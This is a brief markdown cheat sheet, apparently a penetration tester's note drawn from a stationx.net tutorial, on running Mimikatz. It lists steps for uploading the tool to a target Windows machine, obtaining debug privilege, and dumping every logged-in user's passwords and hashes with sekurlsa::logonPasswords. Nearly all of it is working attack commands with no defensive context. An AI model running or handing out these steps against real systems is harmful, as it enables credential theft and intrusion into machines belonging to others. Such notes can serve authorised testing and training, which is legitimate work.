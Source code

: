 https://www.stationx.net/how-to-use-mimikatz/

Setup:
1. On Kali run `mimikatz`. This will change the directory to where the program is installed. Then change into the *x64* directory.
2. Upload the files to the target windows machine
3. Open an administrative command prompt and run `mimikatz.exe`

List all privileges:
```mimikatz
privilege::
```

Get required debug privileges: 
```mimikatz
privilege::debug
```

Show available options to enumerate credentials:
```mimikatz
sekurlsa::
```

Show all login passwords/hashes:
```mimikatz
sekurlsa::logonPasswords
```
